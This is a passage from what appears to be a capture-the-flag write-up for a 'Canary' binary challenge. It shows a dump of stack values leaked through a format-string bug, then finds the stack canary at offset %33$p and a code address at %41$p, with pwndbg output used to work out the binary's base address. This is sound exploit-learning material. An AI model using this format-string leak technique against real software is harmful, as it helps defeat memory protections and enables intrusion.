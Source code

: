     63 : b'0x7fff902964f4'
    64 : b'0x7ffe4eead51d'
    65 : b'0x7ffe91100531'
    66 : b'0x7ffc1d4e6548'
    67 : b'0x7ffd7738e560'
    68 : b'0x7ffdc677457c'
    69 : b'0x7fff1bdc5599'
    70 : b'0x7ffc7fc0f5a5'
    71 : b'0x7ffd6ca725c0'
    72 : b'0x7ffd82a2f5d9'
    73 : b'0x7ffee23545f1'
    74 : b'0x7ffedd589627'
    75 : b'0x7ffdffc2f636'
    76 : b'0x7ffe0696f643'
    77 : b'0x7ffefccfc655'
    78 : b'0x7ffc275ba66a'
    79 : b'0x7ffd633de67b'
    80 : b'0x7ffd12e76c6a'
    81 : b'0x7fffa485fc8b'
    82 : b'0x7ffecf4acc9c'
    83 : b'0x7ffe23733cb6'
    84 : b'0x7ffc3aeb7d0c'
    85 : b'0x7ffd26f80d23'
    86 : b'0x7ffd79a9ed45'
    87 : b'0x7ffe80d23d5c'
    88 : b'0x7ffee0d4ad70'
    89 : b'0x7ffc2eafbd8e'
    90 : b'0x7ffede02fdae'
    91 : b'0x7ffdc1c22db7'
    92 : b'0x7ffe80639dd5'
    93 : b'0x7ffcaa26fde0'
    94 : b'0x7ffff6687de8'
    95 : b'0x7ffcfbc5ce01'
    96 : b'0x7ffc68441e13'
    97 : b'0x7ffc153ace2e'
    98 : b'0x7ffc5030fe4d'
    99 : b'0x7ffe877efe61'

The canary seems to be in position 26 or 27 or 33, running the program on gdb and checking the canary with `%26$p   %27$p` and `%33$p`, we can confirm that the canary is leaked with `%33$p`.
On the other hand the base address could be within this two offset 41 or 45. I will try `%41$p` :
Running on gdb, breaking at vuln after the printf we get an address and seems to suite perfectly for our job

    pwndbg> xinfo 0x555555555100
    Extended information for virtual address 0x555555555100:
    
      Containing mapping:
        0x555555555000     0x555555556000 r-xp     1000   1000 /home/ctf/lit ctf/Canary/s
    
      Offset information:
             Mapped Area 0x555555555100 = 0x555555555000 + 0x100
             File (Base) 0x555555555100 = 0x555555554000 + 0x1100
          File (Segment) 0x555555555100 = 0x555555555000 + 0x100
             File (Disk) 0x555555555100 = /home/ctf/lit ctf/Canary/s + 0x1100
    